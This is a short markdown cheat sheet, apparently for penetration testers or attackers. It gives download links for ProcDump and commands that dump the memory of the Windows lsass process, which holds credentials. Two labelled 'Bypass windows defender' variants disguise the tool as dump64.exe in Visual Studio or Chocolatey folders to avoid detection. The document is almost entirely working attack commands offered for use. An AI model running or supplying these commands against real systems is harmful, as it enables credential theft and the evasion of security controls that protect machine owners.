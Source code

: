 ### Source
https://live.sysinternals.com/procdump.exe  
https://live.sysinternals.com/procdump64.exe  

### Dump lsass process to file
```
procdump.exe -accepteula -ma lsass.exe <file>
```

### Bypass windows defender (variant 1)
```
cp .\procdump.exe 'C:\Program Files (x86)\Microsoft Visual Studio\dump64.exe'
.\dump64.exe -ma (Get-Process lsass).Id <outfile>.dmp
```


### Bypass windows defender (variant 2)
```
cp .\procdump.exe 'C:\ProgramData\chocolatey\bin\dump64.exe'
.\dump64.exe -ma (Get-Process lsass).Id <outfile>.dmp